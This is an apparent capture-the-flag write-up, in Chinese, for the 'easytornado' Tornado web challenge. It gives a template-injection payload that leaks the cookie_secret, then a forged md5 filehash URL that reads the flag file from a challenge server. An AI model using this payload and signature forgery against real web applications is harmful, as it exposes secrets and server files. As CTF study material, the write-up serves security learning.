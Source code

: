 
# easytornado

* 到hint.html页面 获取cookie_secret
```  
error?msg={{handler.settings}}
```

* 将获取到cookie_secret 按要求拼接,filehash之后的数据要加密后生成
``` 
file?filename=/fllllllllllllag&filehash=md5(cookie_secret+md5(/fllllllllllllag))

http://220.249.52.133:59380/file?filename=/fllllllllllllag&filehash=312361ad334e233d12426db227e6fed9

```
